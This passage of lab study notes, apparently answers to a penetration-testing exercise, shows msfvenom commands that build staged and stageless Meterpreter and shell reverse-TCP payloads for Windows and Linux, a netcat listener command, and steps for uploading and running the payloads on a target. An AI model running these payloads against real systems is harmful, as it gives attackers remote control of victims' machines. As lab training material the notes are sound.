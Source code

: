 	generating msfvenom windows payload:
	`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.222.83 LPORT=1234 -f exe > reverse.exe`

	creating listener using multi/handler with payload: `windows/meterpreter/reverse_tcp`
	![[Pasted image 20240821025104.png]]

	transfering the payload file to the attacking windows machine:
	![[Pasted image 20240821025229.png]]
	![[Pasted image 20240821025239.png]]

	run the file on the machine ... etc

9) Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with _netcat_ -- does this work?

	- setting up the listener using netcat:
		`nc -nvlp 1234`

	- generating msfvenom payloads:
		
		### **Windows Staged reverse TCP**
		`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe`

		### **Windows Stageless reverse TCP**
		`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe`

		### **Linux Staged reverse TCP**
		`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

		### **Linux Stageless reverse TCP**
		`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

	- uploading manually on the website and open/test them
		![[Pasted image 20240821025811.png]]
		![[Pasted image 20240821025829.png]]
		